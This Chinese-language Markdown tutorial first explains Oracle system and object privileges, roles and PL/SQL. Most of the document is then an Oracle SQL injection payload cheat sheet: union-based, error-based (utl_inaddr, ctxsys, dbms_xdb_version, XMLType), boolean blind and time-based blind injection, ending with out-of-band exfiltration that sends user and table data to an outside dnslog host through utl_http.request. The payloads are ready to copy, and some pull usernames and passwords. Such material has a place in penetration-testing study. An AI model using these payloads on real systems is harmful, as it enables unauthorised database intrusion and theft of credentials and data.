

# Oracle权限分类

权限是用户对一项功能的执行权力。在Oracle中，根据系统的管理方式不同，将 Oracle 权限分为系统权限与实体权限两类。系统权限是指是否被授权用户可以连接到数据库上，在数据库中可以进行哪些系统操作。而实体权限是指用户对具体的模式实体 (schema) 所拥有的权限。

## 系统权限管理

系统权限：系统规定用户使用数据库的权限。（系统权限是对用户而言)。

- `DBA:`拥有全部特权，是系统最高权限，只有DBA才可以创建数据库结构
- `RESOURCE:`拥有Resource权限的用户只可以创建实体，不可以创建数据库结构
- `CONNECT:`拥有Connect权限的用户只可以登录Oracle，不可以创建实体，不可以创建数据库结构

对于普通用户：授予connect，resource权限

对于DBA用户：授予connect，resource，dba权限

```sql
-- 系统权限授予命令：
	系统权限只能由DBA用户授出，也就是sys,system(这两个用户是最开始的两个DBA用户)
	授权命令：grant connect, resource, dba to username1 , username2...;
	普通用户通过授权可以具有与system相同的用户权限，但永远不能达到与sys用户相同的权限，system用户的权限也可以被回收
	回收授权命令：revoke connect, resource, dba from system;

-- 查询用户拥有那些权限：
	select * from dba_role_privs;
	select * from dba_sys_privs;
	select * from role_sys_privs;

-- 查询自己拥有那些系统权限
	select * from session_privs;
	
-- 删除用户
	drop user [username] cascade; -- 加上cascade则将用户连同其创建的东西全部删除
	
-- 系统权限传递
	增加 WITH ADMIN OPTION 选项，则得到的权限可以传递。
	grant connect, resorce to user50 with admin option;
	
-- 系统权限回收，只能由DBA用户回收
	revoke connect, resource, dba from system;
	
-- 说明
	1. 如果使用WITH ADMIN OPTION为某个用户授予系统权限，那么对于被这个用户授予相同权限的所有用户来说，取消该用户的系统权限并不会级联取消这些用户的相同权限。
	2. 系统权限无级联，即A授予B权限，B授予C权限，如果A收回B的权限，C的权限不受影响；系统权限可以跨用户回收，即A可以直接收回C用户的权限。
```

## 实体权限管理

实体权限：某种权限用户对其它用户的表或视图的存取权限。（是针对表或视图而言的）。

- select, update, insert, alter, index, delete, all //all 包括所有权限
- execute // 执行存储过程权限

```sql
-- 授权用户表操作
	grant select, update, insert on product to user02;
	grant all on product to user02;
	上述两条命令是 除drop之外所有对 product表的操作授予 user02 用户
	
-- 授予全部用户表的操作权限
	grant all on product to public; # all不包括 drop 权限
	
-- 实体权限传递
	grant select, update on product to user02 with grant option;
	user02得到权限，并可以传递。
	
-- 实体权限的回收
	Revoke select, update on product from user02;
	传递的权限将全部消失

-- 说明
	1. 如果取消某个用户的对象权限，那么对于这个用户使用WITH GRANT OPTION授予权限的用户来说，同样还会取消这些用户的相同权限，也就是说取消授权时级联的。
```

# 角色管理

```sql
-- 建立一个角色
	create role role1;
	
-- 为角色授权
	grant create any table,create procedure to role1;
	
-- 授权角色给用户
	grant role1 to user1;
	
-- 查看角色所包含的权限
	select * from role_sys_privs;
	
-- 创建带有口令的角色（在生效带有口令的角色时必须提供口令）
	create role role1 identified by password1;
	
-- 修改角色，设置是否需要口令
	alter role role1 not identified;
	alter role role1 identified by password1;

-- 设置当前用户要生效的角色
	角色的生效是一个什么概念呢？假设用户a有b1,b2,b3三个角色，那么如果b1未生效，则b1所包含的权限对于a来讲是不拥有的，只有角色生效了，角色内的权限才作用于用户，最大可生效角色数由参数MAX_ENABLED_ROLES设定；在用户登录后，oracle将所有直接赋给用户的权限和用户默认角色中的权限赋给用户。
	set role role1; # 使role1生效
	set role role,role2; # 使role1,role2生效
	set role role1 identified by password1; # 使用带有口令的role1生效
	set role all; # 使用该用户的所有角色生效
	set role none; # 设置所有角色失效
	set role all except role1; # 除role1外的该用户的所有其它角色生效。
	select * from SESSION_ROLES; # 查看当前用户的生效的角色。
	
-- 修改指定用户，设置其默认角色
	alter user user1 default role role1;
	alter user user1 default role all except role1;
	
-- 删除角色
	drop role role1；
	角色删除后，原来拥用该角色的用户就不再拥有该角色了，相应的权限也就没有了。
	
-- 说明
	1. 无法使用WITH GRANT OPTION为角色授予对象权限
	2. 可以使用WITH ADMIN OPTION 为角色授予系统权限,取消时不是级联
```

# PL/SQL语言

PL/SQL 也是一种程序语言，叫做过程化 SQL 语言（Procedual Language/SQL）。

PL/SQL 是 Oracle 数据库对 SQL 语句的扩展。在普通 SQL 语句的使用上增加了编程语言的特点，所以 PL/SQL 就是把数据操作和查询语句组织在 PL/SQL 代码的过程性单元中，通过逻辑判断、循环等操作实现复杂的功能或者计算的程序语言。在 PL/SQL 编程语言是由甲骨文公司在 20 世纪 80 年代，作为 SQL 程序扩展语言和 Oracle 关系数据库开发。

基本结构如下：

```
DECLARE
    
BEGIN
    
EXCEPTION
    
END;
```

# SQL 注入需注意的规则

- Oracle 使用查询语言获取需要跟上表名，这一点和 Access 类似，没有表的情况下可以使用 dual 表，dual 是 Oracle 的虚拟表，用来构成 select 的语法规则，Oracle 保证 dual 里面永远只有一条记录。

- Oracle 的数据库类型是强匹配，所以在 Oracle 进行类似 Union 查询数据时必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用 NULL 代替某些无法快速猜测出的数据类型位置，这一点和 SQL Server 类似。

- Oracle 和 mysql 不一样，分页中没有 limit，而是使用三层查询嵌套的方式实现分页 例如: `SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <= 1 ) WHERE RN >=0`

- Oracle 的单行注释符号是 `--`，多行注释符号 `/**/`。
- Oracle 数据库包含了几个系统表，这几个系统表里存储了系统数据库的表名和列名，如 user_tab_columns，all_tab_columns，all_tables，user_tables 系统表就存储了用户的所有的表、列名，其中 table_name 表示的是系统里的表名，column_name 里的是系统里存在的列名。

- Oracle 使用 `||` 拼接字符串（在 URL 中使用编码 `%7c` 表示），`concat()` 函数也可以实现两个字符串的拼接

# 联合查询注入

**Payload空格有问题，可以放在vscode中查看**

```sql
# 判断注入点
所有数据库方式都一样

# 判断列数
依旧提交 order by 去猜测显示当前页面所用的 SQL 查询了多少个字段，也就是确认查询字段数。
?id=1 order by 3 --+
?id=1 order by 4 --+

# 判断回显点
?id=-1 union select null,null,null from dual --+
?id=-1 union select 1,'2','3' from dual --+

# 获取数据库基本信息
?id=-1 union select 1,(select banner from sys.v_$version where rownum=1 ),'3' from dual --+
?id=-1 union select 1,(select instance_name from v_$instance),'3' from dual --+

# 获取数据库名，即用户名
Oracle 没有数据库名的概念，所谓数据库名，即数据表的拥有者，也就是用户名。
1. 获取第一个用户名
?id=-1 union select 1,(select username from all_users where rownum=1),'3' from dual --+
2. 获取第二个用户名
?id=-1 union select 1,(select username from all_users where rownum=1 and username not in ('SYS')),'3' from dual --+
       
3. 获取当前用户名
?id=-1 union select 1,(SELECT user FROM dual),'3' from dual --+

# 获取表名
1. 获取Test用户第一张表
?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST'),'3' from dual --+
2. 获取Test用户第二张表
?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST' and table_name<>'NEWS'),'3' from dual --+

# 获取字段名
?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),'3' from dual --+
?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1 and column_name<>'ID'),'3' from dual --+

# 获取数据
?id=-1 union select 1,(select concat(concat(username,'~~'),password) from users where rownum=1),null from dual --+
```

# 报错注入

在 oracle 注入时候出现了数据库报错信息，可以优先选择报错注入，使用报错的方式将查询数据的结果带出到错误页面中。

使用报错注入需要使用类似 1=[报错语句]，1>[报错语句]，使用比较运算符，这样的方式进行报错注入（MYSQL 仅使用函数报错即可），类似 mssql 报错注入的方式。

## utl_inaddr.get_host_name ()

`utl_inaddr.get_host_address` 本意是获取 ip 地址，但是如果传递参数无法得到解析就会返回一个 oracle 错误并显示传递的参数。

我们传递的是一个 sql 语句所以返回的就是语句执行的结果。**oracle 在启动之后，把一些系统变量都放置到一些特定的视图当中，可以利用这些视图获得想要的东西。**

```sql
# 获取用户名
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select user from dual)%7c%7c'~') --+

# 获取表名
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

# 获取字段名
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

# 获取数据
?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+
```

## ctxsys.drithsx.sn () 

```sql
# 获取用户名
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select user from dual)%7c%7c'~') --+

# 获取表名
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

# 获取字段名
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

# 获取数据
?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+

```

## dbms_xdb_version.checkin ()

```sql
# 获取用户名
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

## dbms_xdb_version.makeversioned ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

## dbms_xdb_version.uncheckout ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

## dbms_utility.sqlid_to_sqlhash ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

## ordsys.ord_dicom.getmappingxpath ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

## XMLType ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select user from dual)%7c%7cchr(62))) from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7cchr(62))) from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7cchr(62))) from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select username from test.users where rownum=1)%7c%7cchr(62))) from dual) is not null --+
```

# 布尔型盲注

## decode()

**decode(字段或字段的运算，值1，值2，值3）**

这个函数运行的结果是，当字段或字段的运算的值等于`值 1` 时，该函数返回`值 2`，否则返回` 值3`，当然值 1，值 2，值 3 也可以是表达式，这个函数使得某些 sql 语句简单了许多

```sql
# 判断是否是TEST用户
?id=1 and 1=(select decode(user,'TEST',1,0) from dual) --+

# 猜解当前用户
?id=1 and 1=(select decode(substr((select user from dual),1,1),'a',1,0) from dual) --+

# 猜解表名
?id=1 and 1=(select decode(substr((select table_name from all_tables where rownum=1 and owner='TEST'),1,1),'N',1,0) from dual) --+

# 猜解字段名
?id=1 and 1=(select decode(substr((select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1),'I',1,0) from dual) --+

# 猜解数据
?id=1 and 1=(select decode(substr((select username from test.users where rownum=1),1,1),'a',1,0) from dual) --+
```

## instr ()

**instr 函数的使用，从一个字符串中查找指定子串的位置**

```sql
select instr('123456789','12') position from dual;
```



可以使用该函数按位爆破，该函数返回是从1开始

```sql
?id=1 and (instr((select user from dual),'S'))=1 --+
?id=1 and (instr((select user from dual),'SY'))=1 --+
?id=1 and (instr((select user from dual),'SYS'))=1 --+
```

## substr()

这个就和mysql 基本一致

```sql
# 猜解数据长度
?id=1 and (select length(user) from dual)=3 --+

# ASCII按位爆破
?id=1 and (select ascii(substr(user,1,1))from dual)=65 --+
```

# 时间盲注

## dbms_pipe.receive_message ()

`DBMS_LOCK.SLEEP() `函数可以让一个过程休眠很多秒，但使用该函数存在许多限制。

首先，不能直接将该函数注入子查询中，因为 Oracle 不支持堆叠查询 (stacked query)。其次，只有数据库管理员才能使用 DBMS_LOCK 包。

在 Oracle PL/SQL 中有一种更好的办法，可以使用下面的指令以内联方式注入延迟：

`dbms_pipe.receive_message('RDS', 10)`

`DBMS_PIPE.RECEIVE_MESSAGE()` 函数将为从 RDS 管道返回的数据等待 10 秒。默认情况下，允许以 public 权限执行该包。`DBMS_LOCK.SLEEP() `与之相反，它是一个可以用在 SQL 语句中的函数。

```sql
# 查看是否可以使用 dbms_pipe.receive_message () 函数进行延时注入
?id=1 and 1=(dbms_pipe.receive_message('RDS',5)) --+

# 猜解当前用户
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(user as varchar(4000)),chr(32)) from dual),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+

# 猜解表名
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(table_name as varchar(4000)),chr(32)) from all_tables where rownum=1 and owner='TEST'),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+

# 猜解字段
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(column_name as varchar(4000)),chr(32)) from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+

# 猜解数据
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(username as varchar(4000)),chr(32)) from test.users where rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

## decode ()

原理：结合耗费时间的查询语句,不过在使用的过程中有很多不尽如人意的地方，有时候加载快有时加载慢。

```sql
?id=1 and 1=(select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual) --+
```

## decode () 与 dbms_pipe.receive_message () 嵌套时间盲注

```sql
?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS', 5),0) from dual) --+
```

## DNS外带注入

Oracle 注入之带外通信和 DNSLOG 注入非常相似，例如和 mysql 中 load_file () 函数实现无回显注入非常相似。

Oracle 发送 HTTP 和 DNS 请求，并将查询结果带到请求中，然后检测外网服务器的 HTTP 和 DNS 日志，从日志中获取查询结果，通过这种方式将繁琐的盲注转换成可以直接获取查询结果的方式。

使用第三方平台，监听访问请求，并记录请求的日志信息，然后使用 utl_http.request() 向外网主机发送 http 请求，请求便携带了查询的结果信息。此处可以结合 SSRF 进行内网探测。或许这就是 Oracle 的 SSRF。

利用 utl.inaddr.get_host_address()，将查询结果拼接到域名下，并使用 DNS 记录解析日志，通过这种方式获取查询结果。

```sql
# 检测是否支持 utl_http.request
?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --+

# 获取用户名
?id=1 and utl_http.request('http://'%7c%7c(select user from dual)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

# 获取表名
?id=1 and utl_http.request('http://'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

# 获取列名
?id=1 and utl_http.request('http://'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

# 获取数据
?id=1 and utl_http.request('http://'%7c%7c(select username from test.users where rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+
```


